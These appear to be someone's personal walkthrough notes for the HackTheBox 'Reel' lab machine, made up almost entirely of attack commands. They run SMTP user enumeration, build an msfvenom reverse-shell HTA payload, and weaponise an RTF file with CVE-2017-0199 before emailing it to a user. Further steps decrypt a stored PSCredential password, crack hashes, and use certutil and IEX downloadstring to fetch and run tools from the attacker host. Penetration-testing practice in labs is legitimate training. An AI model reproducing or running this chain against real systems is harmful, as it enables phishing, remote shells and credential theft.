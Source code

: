 ### FTP
```bash
ftp $IP
```
exploit smtp with RTF object from readme.txt

`docx2txt AppLocker.docx`

### Get all ports
```bash
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

Open 10.129.1.151:22
Open 10.129.1.151:21
Open 10.129.1.151:25

### SMTP
##### SMTP user enumeration using RCPT and other commands
```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP

smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
```

Try User Enumeration using "RCPT TO". Replace <TARGET-DOMAIN> with the target's domain name:
```bash
hydra smtp-enum://10.129.1.151:25/rcpt -L "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" -o "/home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Active Directory/Reel/results/10.129.1.151/scans/tcp25/tcp_25_smtp_user-enum_hydra_rcpt.txt" -p $IP
```

##### Nmap script
```bash
nmap --script smtp-enum-users $IP -v -p 25
```

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|   RCPT, root
|   RCPT, admin
|   RCPT, administrator
|   RCPT, webadmin
|   RCPT, sysadmin
|   RCPT, netadmin
|   RCPT, guest
|   RCPT, user
|   RCPT, web
|_  RCPT, test

```bash
nmap -p 25 --script smtp-brute $IP -Pn
```

### Back to the ftp documents as above failed
```bash
❯ mv Windows\ Event\ Forwarding.docx WEF.docx
                                                                                                                                                                                            
❯ docx2txt WEF.docx
Failed to extract required information from <WEF.docx>!
                                                                                                                                                                                            
❯ exiftool WEF.docx
```

nico@megabank.com

### RTF cve
##### without metasploit
0) Prepare the HTA payload with msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.13 LPORT=443 -f hta-psh > /tmp/alvin.hta` <- x86 make it harder to think about it.
1) Generate malicious RTF file
`python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.13/alvin.hta`
2) serve it
```bash
cd /tmp 
python3 -m http.server 80
```
3) Start toolkit in exploit mode to deliver local payload <- This won't work since it need the target path to be executed.
```bash XX
python cve-2017-0199_toolkit.py -M exp -t RTF -e http://10.10.16.13/alvin.hta -l /tmp/alvin.hta
```
4) sendEmail
```bash
sendEmail -f foo@megabank.com -t nico@megabank.com -u "U hello" -m "M goodbye" -a invoice.rtf -s $IP -v
``` 

##### metasploit method 1 office_word_hta
##### metasploit method 2 meterpreter with Empire (offical writeup)

# Foothold
```
c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
* https://hashes.com/en/tools/hash_identifier
* https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
hashcat -m 12900 --force -a 0 tom.hash /usr/share/wordlists/rockyou.txt
```

a little offset invest
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```
```
000000000000000000000000000000000000000000000000000000038421854118412625768408160477112384218541184126257684081604771129b6258eb22fc8b9d08e04e6450f72b98725d7d4fcad6fb6aec4ac2a79d0c6ff738421854118412625768408160477112
```

### PSCredential is the better way to do it
PowerShell has a method for storing encrypted credentials that can only be accessed by the user account that stored them. To retrieve the credential and using it within a script, you read it from the XML file. We will use this method to get the user’s hash.

```
PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"

PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
```
```c:\ rev
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

### RunAs or ssh
`ssh tom@$IP`

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).
Maybe we should re-run Cypher query against other groups we've created.   

### Below follow the 0xdf writeup and ippsec video
```
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.exe 
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.ps1

PS>
IEX(New-Object Net.Webclient).downloadstring("http://10.10.16.13/SharpHound.ps1") Invoke-BloodHound -CollectionMethod All
```
BloodHound not working.

I'll just go with powerview.

`certutil -urlcache -f http://10.10.16.13/powerview.ps1 powerview.ps1`
